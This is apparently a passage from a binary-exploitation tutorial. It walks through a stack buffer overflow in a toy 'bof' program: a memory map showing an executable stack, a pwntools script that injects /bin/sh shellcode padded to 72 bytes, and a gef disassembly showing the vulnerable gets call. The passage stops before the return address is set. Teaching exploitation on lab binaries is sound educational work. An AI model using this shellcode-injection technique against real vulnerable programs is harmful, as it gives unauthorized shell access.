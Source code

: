 ```python
0x00007ffff7dd5000 0x00007ffff7dfb000 0x0000000000000000 r-- /usr/lib/libc-2.32.so
0x00007ffff7dfb000 0x00007ffff7f48000 0x0000000000026000 r-x /usr/lib/libc-2.32.so
0x00007ffff7f48000 0x00007ffff7f94000 0x0000000000173000 r-- /usr/lib/libc-2.32.so
0x00007ffff7f94000 0x00007ffff7f97000 0x00000000001be000 r-- /usr/lib/libc-2.32.so
0x00007ffff7f97000 0x00007ffff7f9a000 0x00000000001c1000 rw- /usr/lib/libc-2.32.so
0x00007ffff7f9a000 0x00007ffff7fa0000 0x0000000000000000 rw- 
0x00007ffff7fca000 0x00007ffff7fce000 0x0000000000000000 r-- [vvar]
0x00007ffff7fce000 0x00007ffff7fd0000 0x0000000000000000 r-x [vdso]
0x00007ffff7fd0000 0x00007ffff7fd2000 0x0000000000000000 r-- /usr/lib/ld-2.32.so
0x00007ffff7fd2000 0x00007ffff7ff3000 0x0000000000002000 r-x /usr/lib/ld-2.32.so
0x00007ffff7ff3000 0x00007ffff7ffc000 0x0000000000023000 r-- /usr/lib/ld-2.32.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002b000 r-- /usr/lib/ld-2.32.so
0x00007ffff7ffd000 0x00007ffff7fff000 0x000000000002c000 rw- /usr/lib/ld-2.32.so
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```

As we can see, the stack has permission `rwx`. That means that we can read, write, and execute to it. So let's set up our exploit

```python
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

shellcode = asm(shellcraft.sh())
payload = shellcode
payload += b"A"*(72 - len(shellcode))

p.sendline(payload)
p.interactive()
```

As we've set the `context.binary`, pwntools takes care of the architecture and operating system \(you can check what shellcode options there are here [https://docs.pwntools.com/en/stable/shellcraft.html](https://docs.pwntools.com/en/stable/shellcraft.html)\)

We then send in \(72 - the length of our shellcode\) times the character A. Now, we just need to find the address for where our shellcode is stored. gef can help with that

```c
gef➤  r
Starting program: /home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof 
What are you going to say?
AAAAAAAA
Thank you, have a nice day!
[Inferior 1 (process 63337) exited normally]
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401159 <+0>:	push   rbp
   0x000000000040115a <+1>:	mov    rbp,rsp
   0x000000000040115d <+4>:	sub    rsp,0x40
   0x0000000000401161 <+8>:	lea    rdi,[rip+0xea4]        # 0x40200c
   0x0000000000401168 <+15>:	call   0x401030 <puts@plt>
   0x000000000040116d <+20>:	lea    rax,[rbp-0x40]
   0x0000000000401171 <+24>:	mov    rdi,rax
   0x0000000000401174 <+27>:	mov    eax,0x0
   0x0000000000401179 <+32>:	call   0x401050 <gets@plt>
   0x000000000040117e <+37>:	lea    rdi,[rip+0xea2]        # 0x402027
   0x0000000000401185 <+44>:	call   0x401030 <puts@plt>
   0x000000000040118a <+49>:	mov    eax,0x0
   0x000000000040118f <+54>:	leave  
   0x0000000000401190 <+55>:	ret    
```